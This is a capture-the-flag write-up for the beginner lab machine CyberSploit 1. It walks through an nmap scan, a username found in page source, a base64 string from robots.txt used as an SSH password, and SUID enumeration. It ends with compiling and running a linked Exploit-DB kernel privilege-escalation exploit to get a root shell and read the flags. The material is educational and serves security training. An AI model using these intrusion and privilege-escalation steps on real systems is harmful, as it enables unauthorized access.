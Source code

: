 ```yaml
---
title: CyberSploit 1
categories: [Proving Grounds Play]
tags: [Kernal Exploit, PrivEsc]
image:
  path: /Vulnhub-Files/img/CyberSploit-1/Untitled.png
  alt:  CyberSploit 1 Machine 🖥️
---
```



## **Description ⤵️**

>
💡 [CyberSploit-1](https://vulnhub.com/entry/cybersploit-1,506/)
<br>
THIS IS A MACHINE FOR COMPLETE BEGINNER , 
<br>
THERE ARE THREE FALGS AVAILABLE IN THIS VM.
<br>
FROM THIS VMs YOU WILL LEARN ABOUT ENCODER-DECODER & EXPLOIT-DB.
{: .prompt-info }


### Let’s find the IP Address first >>

```bash
IP : 192.168.195.92
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/CyberSploit]
└─$ sudo nmap -sC -sV -T4 -oN Nmap_results.txt 192.168.195.92 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-28 20:36 IST
Nmap scan report for 192.168.195.92
Host is up (0.18s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 01:1b:c8:fe:18:71:28:60:84:6a:9f:30:35:11:66:3d (DSA)
|   2048 d9:53:14:a3:7f:99:51:40:3f:49:ef:ef:7f:8b:35:de (RSA)
|_  256 ef:43:5b:d0:c0:eb:ee:3e:76:61:5c:6d:ce:15:fe:7e (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Hello Pentester!
|_http-server-header: Apache/2.2.22 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/CyberSploit-1/Untitled.png)

After checking the source code I got this →

![Untitled](/Vulnhub-Files/img/CyberSploit-1/Untitled%201.png)

```bash
username:itsskv
```

Now lets check robots.txt file →

![Untitled](/Vulnhub-Files/img/CyberSploit-1/Untitled%202.png)

Now after decoding this base64 encoding I got this →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/CyberSploit]
└─$ echo "Y3liZXJzcGxvaXR7eW91dHViZS5jb20vYy9jeWJlcnNwbG9pdH0=" | base64 -d
cybersploit{youtube.com/c/cybersploit}
```

Now lets use this ⬆️ above string to use as a password for ssh login So, lets give it a try at least →

## SHELL ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/CyberSploit]
└─$ ssh itsskv@192.168.195.92                    
The authenticity of host '192.168.195.92 (192.168.195.92)' cant be established.
ECDSA key fingerprint is SHA256:19IzxsJJ/ZH00ix+vmS6+HQqDcXtk9k30aT3K643kSs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.195.92' (ECDSA) to the list of known hosts.
itsskv@192.168.195.92 is password: 
Welcome to Ubuntu 12.04.5 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Your Hardware Enablement Stack (HWE) is supported until April 2017.

itsskv@cybersploit-CTF:~$
```

Now when I am inside the shell lets try different things to get to root →

```bash
itsskv@cybersploit-CTF:~$ cat local.txt 
d19dff81aa1a2e22550afd3b583ea580
itsskv@cybersploit-CTF:~$
itsskv@cybersploit-CTF:~$ cat flag2.txt 
Your flag is in another file...
itsskv@cybersploit-CTF:~$
```

Lets check the SUIDs and GUIDs files →

```bash
itsskv@cybersploit-CTF:/$ find / -perm -u=s -type f 2>/dev/null
/bin/fusermount
/bin/ping
/bin/su
/bin/umount
/bin/mount
/bin/ping6
/usr/bin/newgrp
/usr/bin/sudoedit
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/arping
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/mtr
/usr/bin/lppasswd
/usr/bin/traceroute6.iputils
/usr/bin/pkexec
/usr/bin/at
/usr/sbin/uuidd
/usr/sbin/pppd
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/pt_chown
itsskv@cybersploit-CTF:/$ find / -perm -g=s -type f 2>/dev/null
/sbin/unix_chkpwd
/usr/bin/mlocate
/usr/bin/X
/usr/bin/crontab
/usr/bin/chage
/usr/bin/dotlockfile
/usr/bin/bsd-write
/usr/bin/ssh-agent
/usr/bin/mail-unlock
/usr/bin/mail-lock
/usr/bin/mail-touchlock
/usr/bin/expiry
/usr/bin/at
/usr/bin/wall
/usr/sbin/uuidd
/usr/games/gnomine
/usr/games/mahjongg
/usr/lib/libvte-2.90-9/gnome-pty-helper
/usr/lib/utempter/utempter
/usr/lib/evolution/camel-lock-helper-1.2
itsskv@cybersploit-CTF:/$
```

Now after checking so many things lets look for Kernel Exploitation →

```bash
itsskv@cybersploit-CTF:/home/cybersploit$ uname -a
Linux cybersploit-CTF 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 athlon i386 GNU/Linux
itsskv@cybersploit-CTF:/home/cybersploit$
```

After reconing online I got an exploit → [https://www.exploit-db.com/raw/37292](https://www.exploit-db.com/raw/37292)

Lets try it out now →

```bash
itsskv@cybersploit-CTF:/tmp$ nano explit.c
itsskv@cybersploit-CTF:/tmp$ chmod +x explit.c
itsskv@cybersploit-CTF:/tmp$ gcc explit.c -o shell
itsskv@cybersploit-CTF:/tmp$ ./shell
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# /bin/bash -i
root@cybersploit-CTF:/tmp# whoami
root
root@cybersploit-CTF:/tmp# id
uid=0(root) gid=0(root) groups=0(root),1001(itsskv)
root@cybersploit-CTF:/tmp# cd /root
root@cybersploit-CTF:/root# ls -al
total 136
drwx------ 20 root root  4096 Jun 28 20:24 .
drwxr-xr-x 23 root root  4096 Sep 22  2020 ..
-rw-------  1 root root  3540 Sep 23  2020 .ICEauthority
-rw-------  1 root root     0 Sep 23  2020 .Xauthority
-rw-------  1 root root     0 Sep 23  2020 .bash_history
-rw-r--r--  1 root root  3106 Apr 19  2012 .bashrc
drwx------ 13 root root  4096 Sep  3  2020 .cache
drwx------  9 root root  4096 Sep  3  2020 .config
drwx------  3 root root  4096 Jun 27  2020 .dbus
-rw-r--r--  1 root root    25 Sep 23  2020 .dmrc
drwx------  3 root root  4096 Sep 23  2020 .gconf
drwx------  4 root root  4096 Sep  3  2020 .gnome2
-rw-r--r--  1 root root   107 Sep 23  2020 .gtk-bookmarks
drwx------  2 root root  4096 Sep  3  2020 .gvfs
drwxr-xr-x  3 root root  4096 Sep  4  2020 .local
drwx------  3 root root  4096 Sep  3  2020 .mission-control
drwx------  4 root root  4096 Sep  3  2020 .mozilla
-rw-r--r--  1 root root   140 Apr 19  2012 .profile
drwx------  2 root root  4096 Sep 23  2020 .pulse
-rw-------  1 root root   256 Jun 25  2020 .pulse-cookie
-rw-------  1 root root 11459 Sep 23  2020 .xsession-errors
-rw-------  1 root root 11011 Sep 22  2020 .xsession-errors.old
drwxr-xr-x  2 root root  4096 Sep  3  2020 Desktop
drwxr-xr-x  2 root root  4096 Sep  3  2020 Documents
drwxr-xr-x  2 root root  4096 Sep  3  2020 Downloads
drwxr-xr-x  2 root root  4096 Sep  3  2020 Music
drwxr-xr-x  2 root root  4096 Sep  3  2020 Pictures
drwxr-xr-x  2 root root  4096 Sep  3  2020 Public
drwxr-xr-x  2 root root  4096 Sep  3  2020 Templates
drwxr-xr-x  2 root root  4096 Sep  3  2020 Videos
-rw-r--r--  1 root root    32 Sep  4  2020 finalflag.txt
-rw-r--r--  1 root root    33 Jun 28 20:24 proof.txt
root@cybersploit-CTF:/root# cat finalflag.txt 
Your flag is in another file...
root@cybersploit-CTF:/root# cat proof.txt 
59595564ca25b9405d338daab9170f4c
root@cybersploit-CTF:/root# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
3: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
    link/ether 00:50:56:ba:1f:90 brd ff:ff:ff:ff:ff:ff
    inet 192.168.195.92/24 brd 192.168.195.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feba:1f90/64 scope link 
       valid_lft forever preferred_lft forever
root@cybersploit-CTF:/root#
```

---